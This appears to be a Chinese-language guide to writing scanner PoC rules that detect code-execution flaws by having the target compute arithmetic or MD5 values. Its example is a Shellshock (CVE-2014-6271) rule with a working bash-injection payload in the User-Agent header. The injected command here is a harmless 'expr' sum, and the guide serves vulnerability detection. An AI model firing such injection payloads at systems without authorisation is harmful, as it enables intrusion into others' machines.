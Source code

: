 # 代码执行漏洞的检出

各种 rce 通常都可以直接使用整数相乘相加或者md5的方法，然后再查找返回结果，这样只有在代码真正被执行的时候才会得到预期的结果。

不要直接 echo 一些简单的字符串，容易造成误报。

1. 如果是测试命令执行，目前推荐使用 `expr num1 + num2`，主要因为星号在 shell 中可能有潜在的转义问题，执行其他的命令可能返回值格式并不方便匹配。
1. 如果是 php 等代码执行，可以使用
    1. print(数字 * 数字)
    1. print(md5(随机值))
    1. printf("随机值%%随机值") 实际输出会少一个百分号
1. sql 注入也可以使用 `union select md5(随机值)` 的原理
1. 考虑到有些32位系统整数上限可能低于`2^^31`和数字过短可能误报，目前要求乘法两个数字的取值范围必须在 `40000` 和 `44800` 之间，加法两个数字必须在 `800000000` 和 `1000000000` 之间。

一个例子：

```yaml
name: poc-yaml-bash-cve-2014-6271
set:
r1: randomInt(800000000, 1000000000)
r2: randomInt(800000000, 1000000000)
rules:
- method: GET
    headers:
    User-Agent: "() { :; }; echo; echo; /bin/bash -c 'expr {{r1}} + {{r2}}'"
    expression: response.body.bcontains(bytes(string(r1+r2)))
detail:
author: example(https://github.com/example)
links:
    - https://github.com/opsxcq/exploit-CVE-2014-6271
```